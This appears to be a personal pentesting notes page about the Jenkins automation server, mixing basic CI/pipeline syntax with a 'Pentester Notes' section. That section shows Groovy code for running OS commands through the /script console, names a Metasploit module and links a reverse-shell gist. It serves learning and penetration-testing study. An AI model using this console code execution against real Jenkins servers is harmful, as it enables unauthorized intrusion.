 # Jenkins

<div class="row row-cols-lg-2"><div>

[Jenkins](https://www.jenkins.io/) is an open-source automation server. It means that it's not a server hosting code, but it can be connected to a GIT server such as GitLab to process [CI/CD](index.md) workflows.

* [GitHub](https://github.com/jenkinsci/jenkins) <small>(22.2k ⭐)</small>
* [User Documentation](https://www.jenkins.io/doc/book/) <small>(⛪)</small>

The biggest strength of Jenkins is that it has a great number of [plugins](https://plugins.jenkins.io/), such as plugins to visualize CI results (tests, coverage...).
</div><div>

Jenkins is written in Java, while [Groovy](https://www.groovy-lang.org) is often used for plugins and for configuration files. It runs on [Apache Tomcat](/operating-systems/cloud/webservers/others/tomcat/index.md).

**Ports** 🐲: 8080 <small>(HTTP)</small> and 5000 <small>(Master/Slave communication)</small>.

Jenkins can be connected to a database or LDAP.
</div></div>

<hr class="sep-both">

## Jenkins Pentester Notes ☠️

[![attacking_common_applications](../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![jenkins_security](../../../cybersecurity/_badges/hacktricks/jenkins_security.svg)](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

<div class="row row-cols-lg-2"><div>

Useful reference: [pwn_jenkins](https://github.com/gquere/pwn_jenkins) <small>(1.9k ⭐)</small>.

#### Enumeration

* Try to access the login page (`/login`)

#### Foothold

* Some Jenkins instances don't have authentication
* Some Jenkins instances may allow us to create accounts
</div><div>

#### Exploitation

The `/script` endpoint can be used to run groovy code.

```groovy
def command = "ls /"
def stdout = new StringBuffer(), stderr = new StringBuffer()
def process = command.execute()
process.consumeProcessOutput(stdout, stderr)
process.waitForOrKill(1000)
def exitCode = process.exitValue()
def output = stderr + stdout

println("Exit Code: ${exitCode}")
println("Output:\n${output}")
```

➡️ See also: [revsh.groovy](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) <small>(0.1k ⭐)</small>.

<details class="details-n">
<summary>Additional Notes For /script</summary>

Metasploit: `exploit/multi/http/jenkins_script_console`.

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/ls","-la"] as String[])
p.waitFor()
```

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
</details>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* master/slaves (a.k.a. workers)
* freestyle projects (web interface) vs pipeline jobs (as code)
* Jenkinsfile (groovy)
* `/var/lib/jenkins3/`
</div><div>

<details class="details-n">
<summary>Basic file</summary>

```java
pipeline {
    agent any
    stages {
        stage('xxx') {
            steps {
                git 'https://github.com/example/my-java-app.git'
                git branch: env.BRANCH_NAME, url: 'URL'
                sh 'xxx'
            }
        }
    }
}
```
</details>

<details class="details-n">
<summary>Add options</summary>

```java
    options {
        buildDiscarder(logRotator(numToKeepStr: '10', daysToKeepStr: '7'))
    }
```
</details>

<details class="details-n">
<summary>Poll SCM or webhooks to trigger a pipeline</summary>

```java
    triggers {
        cron('H H(0-7) * * 1-5')
        webhook('')
    }
```
</details>

<details class="details-n">
<summary>Artifacts are the output of the build</summary>

```java
    post {
        always {
            junit '*.xml'
        }
        success {
            archiveArtifacts '*.xml'
        }
    }
```
</details>

<details class="details-n">
<summary>Bonus</summary>

```java
stage('xxx') {
    when {
        branch 'development'
    }
}
```

```java
// https://plugins.jenkins.io/warnings-ng/
recordIssues(
    tools: [clangTidy(pattern: 'clang-tidy-report.txt')]
)
```
</details>
</div></div>